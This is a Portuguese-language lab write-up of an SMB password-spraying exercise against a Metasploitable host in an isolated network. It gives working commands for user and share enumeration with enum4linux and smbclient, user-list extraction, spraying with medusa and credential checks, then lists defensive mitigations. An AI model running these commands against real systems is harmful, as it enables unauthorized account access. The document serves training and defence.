 # Cenário: Password Spraying em SMB

## Objetivo
Executar password spraying em SMB com enumeração prévia de usuários para demonstrar risco de credenciais reutilizadas e falta de proteção contra autenticações em massa.

## Ambiente
- **Alvo:** `192.168.56.102` (Samba / Metasploitable)  
- **Atacante:** `192.168.56.101` (Kali Linux)  
- **Rede:** Host-Only (isolada)  
- **Ferramentas:** `enum4linux`, `smbclient`, `crackmapexec`, `medusa`  
- **Wordlists:** `wordlists/users.txt` (lista de usuários), `wordlists/spray-passwords.txt` (senhas comuns)

## Metodologia
1. **Enumeração** — identificar usuários e serviços SMB acessíveis.  
2. **Construção de lista de usuários** — filtrar usuários válidos a partir da enumeração.  
3. **Password spraying** — testar poucas senhas comuns contra muitos usuários (evitar lockout por usuário).  
4. **Validação** — confirmar acessos e listar shares acessíveis.  
5. **Documentação** — salvar outputs e sanitizar evidências.

## Comandos

### 1) Enumeração de usuários e shares
```bash
# enumeração básica
enum4linux -a 192.168.56.102 > scans/enum4linux-192.168.56.102.txt

# listar shares/versões
smbclient -L 192.168.56.102 -N
```

### 2) Filtrar/compilar lista de usuários (ex.: a partir do enum4linux)
```bash
# exemplo: extrair linhas com 'User:'
grep "User:" scans/enum4linux-192.168.56.102.txt | awk '{print $2}' > wordlists/users.txt
```

### 3) Password spraying (medusa example)
```bash
medusa -h 192.168.56.102 -U wordlists/users.txt -P wordlists/spray-passwords.txt -M smb -T 6 -f -v
```

### 4) Validar credenciais encontradas
```bash
# exemplo: conectar usando smbclient
smbclient -L //192.168.56.102 -U ***REDACTED***
```

## Mitigações recomendadas

1. Detecção de pattern de spray: implementar alertas para muitas falhas distribuídas entre usuários.
2. Rate limiting e bloqueio adaptativo: aplicar limites por origem e por conta, com bloqueio temporário após padrões suspeitos.
3. Política de senha forte e rotação: proibir senhas comuns, exigir complexidade e troca periódica.
4. Monitoramento centralizado de autenticações: correlacionar falhas e tentativas em múltiplos serviços para detecção precoce.
5. Autenticação multifator (MFA): exigir MFA para contas com acesso privilegiado.
6. Revisão e hardening de shares/permssões: reduzir exposição, remover permissões excessivas e desativar shares desnecessários.
7. Implementar mecanismos de detecção de credential stuffing/spraying em SIEM/WAF: regras específicas para reconhecer padrão de tentativas em massa.
8. Treinamento e governança: conscientizar times sobre risco de reutilização de senhas e manter inventário de contas e permissões.

